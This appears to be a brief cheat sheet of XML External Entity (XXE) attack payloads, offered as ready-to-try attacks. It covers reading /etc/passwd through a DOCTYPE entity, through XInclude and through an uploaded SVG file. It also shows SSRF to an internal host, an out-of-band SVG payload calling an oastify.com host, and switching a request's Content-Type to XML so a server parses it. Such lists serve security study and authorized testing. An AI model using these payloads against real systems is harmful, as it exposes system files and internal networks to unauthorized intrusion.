 - If in a request you have `xml` body  like this : 
```xml
<?xml version="1.0" encoding="UTF-8"?> <stockCheck><productId>381</productId></stockCheck>
```

- You can try this attack : 
```xml 
<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]> <stockCheck><productId>&xxe;</productId></stockCheck>
```

- You can also performed  a SSRF :
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```

- XInclude (server-side XML) : 
```sh
productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
```

- Via file upload that accepts SVG image : 
```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE foo [ <!ENTITY fetch SYSTEM "file:///etc/passwd">]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg"
xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
<text font-size="23" x="8" y="28">&fetch;</text>
</svg>
```

OR

```sh
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://5y4g40b6lcapqz14hupvgwkptgz7nxbm.oastify.com/" >]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
<text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

- Content-Type: From x-www-urlencoded to XML

If a POST request accepts the data in XML format, you could try to exploit a XXE in that request. For example, if a normal request contains the following:

```
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```

Then you might be able submit the following request, with the same result:

```
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```

